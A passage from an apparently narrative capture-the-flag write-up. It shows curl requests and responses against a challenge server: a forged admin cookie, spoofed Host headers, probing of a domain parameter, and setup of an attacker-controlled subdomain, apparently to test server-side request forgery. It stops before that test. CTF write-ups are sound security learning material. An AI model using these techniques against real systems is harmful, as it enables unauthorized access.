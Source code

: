 A new error. Few things in life give the feeling of progress like a new error message.

The many hours spent reverse-engineering undocumented APIs from vendors streamed through
his brain. Why would the request not be acceptable? Oh; the content-type. Duh.

```
▶ curl -is http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{}'
HTTP/1.1 418 I'm a teapot
Date: Tue, 14 Nov 2017 13:02:53 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 31
Content-Type: application/json

{"error":{"domain":"required"}}
```

"*You're* a teapot, Jobert", he thought; but the next step seemed obvious:

```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{"domain": "admin.acme.org"}'
{"error":{"domain":"incorrect value, .com domain expected"}}
```

OK, no problem there either:

```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{"domain": "212.acme.com"}'
{"next":"\/read.php?id=0"}
```

The next step of the challenge had presented itself. He requested the new file:

```
▶ curl -s -H'Host: admin.acme.org' -H'Cookie: admin=yes' http://104.236.20.43/read.php?id=0
{"data":""}
```

Odd. He thought maybe he had to set the data in the request:

```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{"domain": "212.acme.com", "data": "Jobert <3 PHP"}'
{"next":"\/read.php?id=1"}
▶ curl -s -H'Host: admin.acme.org' -H'Cookie: admin=yes' http://104.236.20.43/read.php?id=1
{"data":""}
```

No. That wasn't it. Perhaps it's fetching data from the domain? He logged into CloudFlare and
configured a new subdomain: `212.tomnomnom.com`. He pointed it at a server that returned simply:

```
▶ curl -s http://212.tomnomnom.com
:)
```

He tried his new subdomain:
